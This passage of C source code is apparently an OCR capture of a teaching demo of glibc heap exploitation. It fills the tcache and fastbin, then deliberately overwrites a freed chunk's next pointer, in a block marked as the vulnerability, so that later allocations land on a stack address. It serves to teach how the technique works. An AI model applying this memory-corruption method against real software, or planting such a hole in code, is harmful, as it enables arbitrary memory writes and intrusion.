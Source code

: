 ```c
    free(ptrs[i]);
  }

  char* victim = ptrs[7];
  printf(
    "The next pointer that we free is the chunk that we're going to corrupt: %p\n"
    "It doesn't matter if we corrupt it now or later. Because the tcache is\n"
    "already full, it will go in the fastbin.\n\n",
    victim
  );
  free(victim);

  printf(
    "Next we need to free between 1 and 6 more pointers. These will also go\n"
    "in the fastbin. If the stack address that we want to overwrite is not zero\n"
    "then we need to free exactly 6 more pointers, otherwise the attack will\n"
    "cause a segmentation fault. But if the value on the stack is zero then\n"
    "a single free is sufficient.\n\n"
  );

  // Fill the fastbin.
  for (i = 8; i < 14; i++) {
    free(ptrs[i]);
  }

  // Create an array on the stack and initialize it with garbage.
  size_t stack_var[6];
  memset(stack_var, 0xcd, sizeof(stack_var));

  printf(
    "The stack address that we intend to target: %p\n"
    "It's current value is %p\n",
    &stack_var[2],
    (char*)stack_var[2]
  );

  printf(
    "Now we use a vulnerability such as a buffer overflow or a use-after-free\n"
    "to overwrite the next pointer at address %p\n\n",
    victim
  );

  //------------VULNERABILITY-----------

  // Overwrite linked list pointer in victim.
  *(size_t**)victim = &stack_var[0];

  //------------------------------------

  printf(
    "The next step is to malloc(allocsize) 7 times to empty the tcache.\n\n"
  );

  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "Let's just print the contents of our array on the stack now,\n"
    "to show that it hasn't been modified yet.\n\n"
  );

```